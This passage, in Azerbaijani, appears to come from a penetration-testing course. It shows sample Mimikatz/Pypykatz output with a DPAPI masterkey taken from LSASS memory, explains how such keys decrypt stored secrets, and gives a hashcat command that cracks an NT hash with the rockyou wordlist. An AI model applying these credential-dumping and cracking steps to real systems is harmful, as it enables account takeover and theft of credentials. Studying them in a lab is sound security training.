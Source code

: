 #### DPAPI

```
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
```

Mimikatz və Pypykatz, məlumatları LSASS proses yaddaşında mövcud olan loqin olmuş istifadəçilər üçün **DPAPI masterkey-ni** çıxara bilər. Bu *masterkey*-lər daha sonra DPAPI istifadə edən hər bir tətbiqlə əlaqəli sirləri deşifrə etmək üçün istifadə edilə bilər və nəticədə müxtəlif hesablar üçün etimadnamələrin ələ keçirilməsi ilə nəticələnir. DPAPI hücum texnikaları Windows İmtiyazların Yüksəldilməsi modulunda daha ətraflı əhatə olunur.

### Hashcat ilə NT Heşini Sındırmaq

NT Heşini sındırmaq üçün **Hashcat**-dən istifadə edə bilərik. Bu nümunədə, biz yalnız Bob istifadəçisi ilə əlaqəli bir NT heşi tapdıq. Əmrdə modu təyin etdikdən sonra, heşi yapışdıra, bir söz siyahısı göstərə və sonra heşi sındıra bilərik.

```
nijatmansimov@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```
